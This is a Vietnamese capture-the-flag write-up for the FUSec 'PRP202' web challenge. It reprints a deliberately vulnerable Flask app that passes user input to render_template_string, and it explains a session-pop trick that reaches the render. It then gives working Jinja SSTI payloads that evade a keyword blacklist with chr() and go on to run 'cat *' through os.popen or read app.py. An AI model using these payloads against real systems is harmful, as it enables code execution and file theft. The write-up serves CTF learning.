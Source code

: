 ```yaml
---
layout: post
title:  "Welcome to Jekyll!"
date:   2019-11-11 21:30:23 +0700
categories: 
render_with_liquid: false
---
```


# h1
## h2
### h3
#### h4


# PRP202

> Một bài hay và cực khó với mình, chả trách người anh T giấu tên cứ bảo làm thử<br>
> 2 ngày để làm, nhiều lần thất bại, nhưng kết quả thật xứng đáng

## Source code and analysis

### Source code
Bắt đầu vào bài, tại trang index, Ctrl U lên thấy [source code](https://github.com/phucdc-noob/FUSec-Write-Ups/blob/main/PRP202.py) Flask của web

```python
app = Flask(__name__, template_folder="template")
SESSION_TYPE = "filesystem"
app.config.from_object(__name__)
Session(app)
authCode = "C4n 1 Trust Y0u? Player "


# Our bot detected that some users had gained access to the system by malicious function, so we decided to ban it.
blacklist = ["'", '"', "request", "readlines", "+", "%2b", "%22", "%27", "linecache"]


def authCheck(input):
    if session.get(input) == None:
        return ""
    return session.get(input)


@app.route("/", methods=["GET", "POST"])
def index():
    try:
        session.pop("userCode")
        session.pop("winner")
    except:
        pass
    if request.method == "POST":
        ok = request.form["ok"]
        for ban in blacklist:
            if ban in request.form["name"]:
                return render_template_string("Hacker Alert!!!")
        session["userCode"] = request.form["name"]
        if ok == "Let's play!":
            session["check"] = "access"
            # bypass this? No way haha :D
            winner = "cocailonditconbamay"
            session["winner"] = winner
            return render_template_string(
                "Generating winner hash...<script>setInterval(function(){ window.location='/doanxem'; }, 500);</script>"
            )
    return render_template("index.html")


@app.route("/doanxem", methods=["GET", "POST"])
def doanxem():
    try:
        if authCheck("check") == "":
            return render_template_string(authCode + authCheck("userCode"))
        else:
            if request.method == "POST":
                winner_input = request.form["winner"]
                if winner_input == authCheck("winner"):
                    mess = (
                        "You are the real winner!!!!!!!!!! "
                        + authCheck("userCode")
                        + ", here your flag: https://youtu.be/dQw4w9WgXcQ"
                    )
                elif winner_input != authCheck("winner"):
                    mess = "Wrong! You die!<script>setInterval(function(){ window.location='/choilai'; }, 1200);</script>"
                return render_template_string(mess)
            return render_template("doanxem.html")
    except:
        pass
    return render_template_string(authCode + authCheck("userCode"))


@app.route("/choilai")
def reset_access():
    try:
        session.pop("check")
        return render_template_string(
            "You got an Extra Change. Gud luck :D!!!!!!<script>setInterval(function(){ window.location='/'; }, 500);</script>"
        )
    except:
        pass
    return render_template_string(authCode + authCheck("userCode"))


if __name__ == "__main__":
    app.secret_key = "###########"
    serve(app, host="0.0.0.0", port=8900)
```

### Analysis

Có `render_template_string()` nên rất dễ đoán đây là [SSTI](https://portswigger.net/research/server-side-template-injection)

Nhưng vì đã bị chặn `request.args` nên chắc phải inject từ một input nào đó :v

Review lại source code thì ta thấy có 2 chỗ `render_template_string()` cần sử dụng `authCheck("userCode")`, chính là cái tên ta nhập ở index

Ở `doanxem()` ta thấy `mess` là một đoạn code chuyển hướng sang `/choilai`

Sang đến `choilai()` thì ta thấy rằng nó sẽ `pop` cái mục `check` của session data, vậy câu hỏi ở đây là, nếu như ta để cho `doanxem` gửi một request sang `/choilai`, nhưng trước khi `/choilai` kịp render, ta drop cái request đó? Tất nhiên cái `session.pop("check")` vẫn được thực thi, nhưng không render. Và nếu ta gửi tiếp một request của `doanxem` vào `/choilai`, điều gì sẽ xảy ra? `session.pop()` sẽ lỗi vì đã pop trước đó, nên giờ không còn gì mà pop, và thay vì render ra chuyển hướng về index, thì đoạn render cuối sẽ được thực thi.

Đã rõ cách để trigger template, thử nhập `{{7*7}}` ở index và làm các bước như trên:

![7*7](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/PRP202_1.png)

## Exploit

Vậy là đã rõ, bây giờ việc cần làm là tạo ra payload, trước tiên, hãy review cái black list của source code đã:

```python
blacklist = ["'", '"', "request", "readlines", "+", "%2b", "%22", "%27", "linecache"]
```

Đoạn này khá là khó, vì black list chứa những kí tự và từ khóa phổ biến để tạo payload SSTI

Suy nghĩ mãi làm thế nào để tạo payload thì người anh TungDLM bảo `chr`, sáng dạ thêm một tí

Cụ thể thì ta sẽ dùng `chr()` để tạo các kí tự trong string và ghép chúng lại, nhưng trước tiên, phải define nó

Thử nhập `().__class__.__base__.__subclasses__()` để list các subclass và mình thấy, tại vị trí 80 có `<class '_frozen_importlib._ModuleLock'>`, có thể sử dụng nó để define `chr`:

```python
{% set ().__class.__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.chr %}
```

Đoạn này phải cảm ơn 3 chữ `s e t` của anh TaiDH, một pro đã giải bài này trong 15 phút, trước cả mình

Ok, để đoạn define ở đó, bây giờ đến đoạn payload chính, có rất nhiều hướng làm:

### Sử dụng `cycler`, `__doc__` và `replace` (TungDLM):

```python
{{cycler.__init__.__globals__.os.popen(().__doc__[36:41].replace(chr(97),chr(99)).replace(chr(114),chr(97)).replace(chr(103),chr(116)).replace(chr(117),chr(32)).replace(chr(109),chr(42))).read()}}
```

Dễ hiểu là, chúng ta sẽ lợi dụng đoạn `__doc__` của `Tuple`, ví `__doc__` là một String nên ta chỉ việc cắt một đoạn của nó ra, `replace()` để thay thế các kí tự, sử dụng `chr()` để thay cho việc dùng `''/""`. Nhờ đó tạo được câu lệnh để `os.open()` thực thi (`cat *`) và in ra tại `read()`

Payload hoàn chỉnh:

```python
{% set chr = ().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.chr %}{{cycler.__init__.__globals__.os.popen(().__doc__[36:41].replace(chr(97),chr(99)).replace(chr(114),chr(97)).replace(chr(103),chr(116)).replace(chr(117),chr(32)).replace(chr(109),chr(42)))}}
```

### Sử dụng `__add__` (by me):

```python
{{().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.open(chr(97).__add__(chr(112).__add__(chr(112).__add__(chr(46).__add__(chr(112).__add__(chr(121)))))))}}
```

Tại đây mình sử dụng `__add__` để nối các kí tự thành chuỗi và `open()` để mở file, không khuyến khích làm theo, khổ dâm lắm :'( 

Payload hoàn chỉnh:

```python
{% set chr = ().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.chr %}{{().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.open(chr(97).__add__(chr(112).__add__(chr(112).__add__(chr(46).__add__(chr(112).__add__(chr(121)))))))}}
```

## Flag:

![flag](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/PRP202_2.png)

Flag: `FUSEC{@@@@@@Th3_n3Xt_l3v3l_pL4y!!!!!!!!}`

> Rất có thể có nhiều cách khác, vì anh TungDLM đã để nhả

> Cảm ơn anh TungDLM và anh TaiDH đã hỗ trợ trong quá trình giải bài này

## References:

- [https://doantung99.medium.com/fpt-night-wolf-ctf-writeup-de43925ed84b](https://doantung99.medium.com/fpt-night-wolf-ctf-writeup-de43925ed84b), WU của anh TungDLM trong giải NightWolf-CTF do SAS tổ chức, trong đó có bài XSMB, cùng SSTI tương tự, tại bài đó, anh Tùng có đính kèm 2 link tham khảo
    
- [https://chowdera.com/2020/12/20201221231521371q.html](https://chowdera.com/2020/12/20201221231521371q.html), đây là bài viết mình tham khảo rất rất nhiều, chi tiết và có thêm 3 đoạn code viết bằng python giúp tìm vị trí các class dễ hơn, một số trick bypass filter, nên tham khảo

- [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection), đây là bài viết của Jame Kettle về SSTI, nếu nhớ không nhầm chính ông này nghiên cứu ra SSTI, nên đọc nếu chưa biết nhiều về SSTI

